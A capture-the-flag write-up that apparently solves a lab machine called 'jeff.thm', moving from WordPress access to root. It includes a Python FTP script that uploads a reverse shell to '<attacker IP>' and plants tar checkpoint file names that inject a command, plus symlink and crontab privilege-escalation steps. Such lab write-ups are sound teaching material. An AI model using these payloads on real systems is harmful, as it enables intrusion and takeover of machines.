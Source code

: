 # Enumeration

Nmap scans reveal ports 22 and 80 are open.

![4bd4e21a930e71ac9a42d6083e0fb421.png](./_resources/4bd4e21a930e71ac9a42d6083e0fb421.png)

![84623b57a4badfe69ca656717ff2dc84.png](./_resources/84623b57a4badfe69ca656717ff2dc84.png)

Investigating the source code of the web server suggests adding `jeff.thm` to the `/etc/hosts` file.

![04fb1cf3534b2f0dff0d743f390861ab.png](./_resources/04fb1cf3534b2f0dff0d743f390861ab.png)

Let's use gobuster to look for interesting directories.

![0e9035b5906bf264951fb9573f2e8f5f.png](./_resources/0e9035b5906bf264951fb9573f2e8f5f.png)

The uploads directory seems promising, but doesn't lead anywhere. Enumerating further with gobuster, we eventually find a `/backups/backup.zip` file. We cannot unzip the file as it is password protected. Use `zip2john backup.zip > backup.txt` together with john to find the password:

![07ad40f238ffbd58086fcf9df66ab5ae.png](./_resources/07ad40f238ffbd58086fcf9df66ab5ae.png)

Now we unzip the file to reveal a `wordpress.bak` file, which contains a password.

![c98932bf70fa810a790673f97afbe4c7.png](./_resources/c98932bf70fa810a790673f97afbe4c7.png)

WordPress didn't show show during our gobuster directory scans, so this suggests it may appear via a subdomain. Indeed, we can just guess by adding `wordpress.jeff.thm` to the `/etc/hosts` file and navigating there. Alternatively, we can also use gobuster to enumerate subdomains.

```bash
gobuster vhost -u http://jeff.thm -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 50
```

![19618e16f0d1451f63703a11fc62cf22.png](./_resources/19618e16f0d1451f63703a11fc62cf22.png)

As expected, the `wordpress.jeff.thm` subdomain leads to a WordPress page. Navigating to the login page, we verify that Jeff is a valid login name.

![293c19863a205868a685ae7c71dc3d73.png](./_resources/293c19863a205868a685ae7c71dc3d73.png)

![daa38b5d9d63bee7f89f8cdeb9365807.png](./_resources/daa38b5d9d63bee7f89f8cdeb9365807.png)

Logging in with the password we found earlier gives us access to jeff's WordPress account.

![64b57eca6d901711ffbfa44ec51276c9.png](./_resources/64b57eca6d901711ffbfa44ec51276c9.png)

<br>

# Exploitation

The usual techniques (e.g. changing 404.php to a reverse shell script) doesn't seem to work. Instead, we will use a [malicious WordPress plugin](https://github.com/wetw0rk/malicious-wordpress-plugin). Download the python script and run it to generate a malicious zip file.

![d39573755e4ac8e16e74f89b7ebcb97e.png](./_resources/d39573755e4ac8e16e74f89b7ebcb97e.png)

The python script will also launch Metasploit in order to set up a handler. Navigate to the plugin page, click "Add New" and upload the zip file.

![cd7edf8c237ed0dd8fcf33112ac60f1d.png](./_resources/cd7edf8c237ed0dd8fcf33112ac60f1d.png)

Activate the plugin and navigate to `wordpress.jeff.thm/wp-content/plugins/malicious/wetw0rk_maybe.php`. The meterpreter handler will catch the reverse shell as the `www-data` user.

![4707c8682bda597391d4728fea0f9ae9.png](./_resources/4707c8682bda597391d4728fea0f9ae9.png)

Looking around, we find a `ftp_backup.php` file containing credentials for an ftp server in a container.

![658753e04dc6d99eb6628e8035831b37.png](./_resources/658753e04dc6d99eb6628e8035831b37.png)

To access the ftp server, we use the following python script which will give us code execution on the ftp server. (To be completely transparent, I found this thanks to Google.)

```python
#!/usr/bin/env python3.7 
 
from ftplib import FTP
import io 
import os
import fileinput
 
host = "172.20.0.1"
username = "backupmgr"
password = "<password from ftp_backup.php>"
 
ftp = FTP(host=host)
 
login_status = ftp.login(user=username, passwd=password)
print(login_status)
ftp.set_pasv(False)
ftp.cwd('files')
print(ftp.dir())
 
rev = io.BytesIO(b'python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker IP>",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'')
emptyFile = io.BytesIO(b'')
ftp.storlines('STOR rev.sh', rev)
ftp.storlines('STOR --checkpoint=1', emptyFile)
ftp.storlines('STOR --checkpoint-action=exec=sh rev.sh', emptyFile)
ftp.dir()
```

Set up a netcat listener on the local machine. Transfer the script to the target machine and run it. This will give us a shell as the backupmgr user.

![28383174a10bbfc79578ec0ecaa623ce.png](./_resources/28383174a10bbfc79578ec0ecaa623ce.png)

Note that we are still in the container, so we need to escape. We know that Jeff is a user, so we can look for files owned by Jeff using `find / -user jeff 2>/dev/null`.

![6feeb53bbca7d81fe59fcf22ec381396.png](./_resources/6feeb53bbca7d81fe59fcf22ec381396.png)

The `jeff.bak` file looks appealing, but unfortunately we can't access it. Navigating to the `/opt/systools` directory, we find a message for Jeff.

![c3dcd148e44db12776b895e116a80563.png](./_resources/c3dcd148e44db12776b895e116a80563.png)

Note that the `systool` file is executable and has the GUID bit set. Running it gives us an option to restore a password. If we click this option, we observe that it prints the text contained in the `message.txt` file.

![63b56adc181f0c2da18f21774d4021e8.png](./_resources/63b56adc181f0c2da18f21774d4021e8.png)

Let's take advantage of this by essentially replacing the `message.txt` output with the contents from the `jeff.bak` file. Remove the `message.txt` file from the directory. Now use `ln -s /var/backups/jeff.bak message.txt` to link the backup file to the non-existent `message.txt`. This way, when the systool script calls for the `message.txt` file, it will print the contents of the backup file.

![a9b9b257232b1fc62bdd8aa02d938c10.png](./_resources/a9b9b257232b1fc62bdd8aa02d938c10.png)

We now have Jeff's ssh credentials. If we `su` in Jeff's account, we note that we are in a restricted bash shell since the `cd` command is not permitted. To fix this, we can upgrade our shell in the usual way by using `python -c 'import pty;pty.spawn("/bin/bash")'`.

Now we can `cd` into jeff's home directory, where we find the `user.txt` flag.

![96f26d98032ecea2ffc969cb7557eee0.png](./_resources/96f26d98032ecea2ffc969cb7557eee0.png)

The flag tells us to hash the output. For this, we can run `echo -n <flag contents> | md5sum` to obtain the actual flag. (Here, it looks like we have to guess the hash format.)

<br>

# Post-Exploitation

Using `sudo -l`, we see that Jeff can run crontab as root.

![85e201cff563932df780f691094b08a8.png](./_resources/85e201cff563932df780f691094b08a8.png)

Navigating to [GTFOBins](https://gtfobins.github.io/gtfobins/crontab/), we see that we can use this for privesc. Run `sudo /usr/bin/crontab -e` to open crontab, which runs in vim. Now type `:!/bin/bash` and press enter to spawn a bash shell as root.

![6b710ee78ccca46cd960e3641a17071f.png](./_resources/6b710ee78ccca46cd960e3641a17071f.png)

Success! From here, we can easily find the `root.txt` flag.

![65001919099d20fd36fd25e6a3eb7d54.png](./_resources/65001919099d20fd36fd25e6a3eb7d54.png)